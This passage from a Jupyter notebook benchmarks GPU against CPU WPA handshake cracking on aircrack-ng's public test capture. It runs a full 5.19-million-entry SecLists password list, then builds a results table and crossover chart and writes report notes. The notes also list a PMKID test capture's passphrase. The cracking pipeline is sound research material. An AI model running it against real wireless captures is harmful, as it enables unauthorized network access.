(GPU's time stays ~flat; CPU's grows linearly). See Step 5c for the full-scale-list case.


## Step 5c -- Realistic full-scale attack: executed on GPU, calculated for CPU

This is the size-sensitive measurement Step 2 deferred. We download SecLists' **full**
5,189,454-entry list and run a genuine forced full scan (no early exit) on GPU -- an actually
*executed* number, using `gpu_mic_attack`'s no-chunking design from Step 4 (one call per device,
splitting only on an out-of-memory retry), so this is **1 call** (or 2, dispatched concurrently,
on a T4x2) rather than the thousand-plus small chunks a naive fixed-`batch_size` loop would
produce -- expect a few minutes here, not hours. We deliberately do **not** run the same full
scan on CPU: at the rate measured in Step 5 (`rate_cpu_fixed`), a single-core full scan is a
straightforward multiplication, not new information, and would cost real Kaggle session minutes
(often tens of minutes) to confirm something a constant-per-candidate-cost algorithm already
guarantees. The CPU row below is labelled **CALCULATED, not executed** for exactly this reason --
do not present it in the report as a measured number.

Set `RUN_FULL_10M = True` to execute this step (adds a ~47 MB download and a few minutes of real
GPU compute). Leave it `False` to skip straight to Step 6 using only the Step 5 numbers.


In [10]:
RUN_FULL_10M = True

if RUN_FULL_10M:
    FULL_WORDLIST_PATH = "caps/wordlist_full.txt"
    subprocess.run(["curl", "-fsSL", "-o", FULL_WORDLIST_PATH,
                     "https://raw.githubusercontent.com/danielmiessler/SecLists/master/"
                     "Passwords/Common-Credentials/xato-net-10-million-passwords.txt"], check=True)
    with open(FULL_WORDLIST_PATH, encoding="utf-8", errors="ignore") as f:
        full_wordlist = [line.rstrip("\n\r") for line in f]
    N_FULL = len(full_wordlist)
    print(f"Full list: {N_FULL:,} entries (target rank: "
          f"{full_wordlist.index(TARGET_PASSWORD) + 1 if TARGET_PASSWORD in full_wordlist else 'absent'})")

    sentinel_full = exclude_target(full_wordlist) + ["__no_match_sentinel_zzz__"]  # force a genuine full scan
    if n_gpus >= 2:
        halfN = len(sentinel_full) // 2
        d0, d1 = torch.device("cuda:0"), torch.device("cuda:1")
        t0 = time.perf_counter()
        with concurrent.futures.ThreadPoolExecutor(max_workers=2) as ex:
            f0 = ex.submit(gpu_mic_attack, rec, sentinel_full[:halfN], d0)
            f1 = ex.submit(gpu_mic_attack, rec, sentinel_full[halfN:], d1)
            f0.result(); f1.result()
        t_gpu_full = time.perf_counter() - t0
    else:
        _, _, t_gpu_full = gpu_mic_attack(rec, sentinel_full, device)
    rate_gpu_full_check = N_FULL / t_gpu_full

    t_cpu_full_calculated = N_FULL / rate_cpu_fixed  # NOT executed -- see markdown above

    print(f"GPU EXECUTED full {N_FULL:,}-entry scan in {t_gpu_full:.1f}s ({rate_gpu_full_check:,.0f}/s)")
    print(f"CPU CALCULATED (not executed) time for the same {N_FULL:,} entries at "
          f"{rate_cpu_fixed:,.0f}/s: {t_cpu_full_calculated:.0f}s (~{t_cpu_full_calculated/60:.1f} min)")
else:
    print("RUN_FULL_10M is False -- skipping the full-scale step; Step 6 will use only the Step 5 numbers.")


Full list: 5,189,454 entries (target rank: 3)
GPU EXECUTED full 5,189,454-entry scan in 1379.4s (3,762/s)
CPU CALCULATED (not executed) time for the same 5,189,454 entries at 264/s: 19683s (~328.1 min)


## Step 6 -- Results table, crossover chart, and CSV for the report

,approach,N,seconds,candidates_per_sec,measured_or_calculated,speedup_vs_cpu_1core
0,"CPU, 1 core (measured)",20000,75.858024,263.650420,measured,1.000000
1,GPU (measured),20000,28.688446,697.144779,measured,2.644201
2,"CPU, 1 core (calculated)",200000,758.580243,263.650420,calculated from Step 5 rate,1.000000
3,GPU (measured),200000,37.007205,5404.353000,measured,20.498177
4,"GPU, full realistic list (EXECUTED)",5189454,1379.435889,3762.011734,measured,14.268939
5,"CPU, full realistic list (CALCULATED, not run)",5189454,19683.086384,263.650420,calculated from Step 5 rate,1.000000



Analytic CPU/GPU crossover: ~7,564 candidates (below it plain CPU wins, above it GPU wins -- see the chart).




Saved: cpu_gpu_crossover.png, real_capture_crack_results.csv

Full-scale (5,189,454 entries): GPU took 1379.4s (executed); CPU would take ~328.1 min (calculated from the measured rate, not executed).


In [11]:
import pandas as pd
import matplotlib.pyplot as plt
import numpy as np

rows = [
    {"approach": "CPU, 1 core (measured)", "N": THROUGHPUT_N, "seconds": t_cpu_fixed,
     "candidates_per_sec": rate_cpu_fixed, "measured_or_calculated": "measured"},
    {"approach": "GPU (measured)", "N": THROUGHPUT_N, "seconds": t_gpu_dual_fixed,
     "candidates_per_sec": rate_gpu_dual_fixed, "measured_or_calculated": "measured"},
    {"approach": "CPU, 1 core (calculated)", "N": THROUGHPUT_N_LARGE, "seconds": t_cpu_large_calculated,
     "candidates_per_sec": rate_cpu_fixed, "measured_or_calculated": "calculated from Step 5 rate"},
    {"approach": "GPU (measured)", "N": THROUGHPUT_N_LARGE, "seconds": t_gpu_large,
     "candidates_per_sec": rate_gpu_large, "measured_or_calculated": "measured"},
]
if RUN_FULL_10M:
    rows.append({"approach": "GPU, full realistic list (EXECUTED)", "N": N_FULL, "seconds": t_gpu_full,
                 "candidates_per_sec": rate_gpu_full_check, "measured_or_calculated": "measured"})
    rows.append({"approach": "CPU, full realistic list (CALCULATED, not run)", "N": N_FULL,
                 "seconds": t_cpu_full_calculated, "candidates_per_sec": rate_cpu_fixed,
                 "measured_or_calculated": "calculated from Step 5 rate"})

results = pd.DataFrame(rows)
results["speedup_vs_cpu_1core"] = results["candidates_per_sec"] / rate_cpu_fixed
display(results)
results.to_csv("real_capture_crack_results.csv", index=False)
print(f"\nAnalytic CPU/GPU crossover: ~{crossover_n:,.0f} candidates "
      f"(below it plain CPU wins, above it GPU wins -- see the chart).")

# --- crossover chart: CPU time grows linearly with N; GPU time is ~flat regardless of N ---
n_range = np.logspace(np.log10(100), np.log10(max(N_FULL if RUN_FULL_10M else THROUGHPUT_N_LARGE, THROUGHPUT_N_LARGE) * 3), 200)
cpu_line = n_range / rate_cpu_fixed
gpu_flat = np.full_like(n_range, t_gpu_dual_fixed)  # measured per-call cost, ~independent of N

fig, ax = plt.subplots(figsize=(7.5, 5))
ax.set_xscale("log"); ax.set_yscale("log")
ax.plot(n_range, cpu_line, color="#7f8c8d", label="CPU (calculated: N / measured rate)")
ax.plot(n_range, gpu_flat, color="#c0392b", label="GPU (this kernel's ~fixed per-call cost)")
gpu_points_n = [THROUGHPUT_N, THROUGHPUT_N_LARGE] + ([N_FULL] if RUN_FULL_10M else [])
gpu_points_t = [t_gpu_dual_fixed, t_gpu_large] + ([t_gpu_full] if RUN_FULL_10M else [])
ax.scatter(gpu_points_n, gpu_points_t, color="#c0392b", zorder=5, label="GPU (measured points)")
ax.axvline(crossover_n, color="#2c3e50", linestyle="--", linewidth=1)
y_lo, y_hi = ax.get_ylim()  # now correctly reflects the log-scale view limits
ax.annotate(f"crossover\n~{crossover_n:,.0f} candidates", xy=(crossover_n, y_lo),
            xytext=(crossover_n * 1.3, (y_lo * y_hi) ** 0.5),  # geometric mean = visual midpoint on a log axis
            fontsize=9, color="#2c3e50")
ax.set_xlabel("N candidates (log scale)")
ax.set_ylabel("time to process N candidates, seconds (log scale)")
ax.set_title(f"CPU vs GPU crossover -- real capture (SSID={rec.ssid!r})")
ax.legend()
plt.tight_layout()
plt.savefig("cpu_gpu_crossover.png", dpi=150)
plt.show()
print("Saved: cpu_gpu_crossover.png, real_capture_crack_results.csv")
if RUN_FULL_10M:
    print(f"\nFull-scale ({N_FULL:,} entries): GPU took {t_gpu_full:.1f}s (executed); "
          f"CPU would take ~{t_cpu_full_calculated/60:.1f} min (calculated from the measured rate, not executed).")


## Notes for the report

- This is a genuine end-to-end crack of a **real, internet-sourced capture** (aircrack-ng's own
  test file), not a synthetic fixture -- the same file already validated in the CPU cross-check.
- The GPU only accelerates PMK derivation (PBKDF2 x4096); the actual FOUND/NOT-FOUND decision is
  made by the project's own unmodified `wpacrack.crypto.verify_mic`, so this experiment's
  correctness rests on code already unit-tested on CPU, not on new/unverified GPU crypto.
- **There is a CPU/GPU crossover point, and it matters which side of it you're on.** Because this
  kernel's per-call cost is ~fixed regardless of batch size while CPU's cost grows linearly with
  N, plain CPU can be *faster* than this GPU kernel below the crossover (Step 5's small
  `THROUGHPUT_N`) and dramatically slower above it (Step 5c's full-scale run). Report **both**
  points honestly rather than picking whichever N makes GPU look best -- the crossover itself,
  and *why* it exists (fixed dispatch overhead vs. linear CPU cost), is a more informative result
  for the report than a single speedup number would be.
- **100k vs. full (~5.19M) wordlist:** the small 100k file is enough to *find* this particular
  capture's password (it ranks #3) and enough to *measure* a stable rate; the full file is used
  only once, in Step 5c, for the literal full-scale-attack number -- and even there, only the GPU
  side is actually executed. Every CPU number at N > `THROUGHPUT_N` is a **calculation**
  (`N / measured_rate`), clearly labelled as such, not a second multi-minute experiment, since
  PBKDF2's cost per candidate is constant and a real run would add session time without adding
  information the Step 5 measurement doesn't already give you. The two real GPU measurements
  (Step 5 and Step 5b) landing at nearly the same wall-clock time despite a 10x difference in N is
  itself the empirical confirmation of that "fixed per-call cost" claim -- don't just assert it.
- The naive kernel here dispatches one PyTorch op per SHA-1 step (eager mode), so wall-clock time
  is dominated by Python/CUDA dispatch overhead rather than raw GPU compute -- this is why bigger
  batches are close to "free" up to GPU memory limits, and why `torch.compile(...)` around
  `pbkdf2_hmac_sha1_gpu` is a natural follow-up if you want to push the crossover point itself
  further left (re-run the Step 1 validation after adding it, before trusting new timings).
- Re-run this same notebook against `test-pmkid.pcap` (SSID `WLAN-771698`, passphrase
  `SP-91862D361`) with `crypto.compute_pmkid`/`verify_pmkid` in place of the MIC calls in Steps
  3-4 to get the same estimate-vs-measured comparison for **Attack 2 (PMKID)** as well.
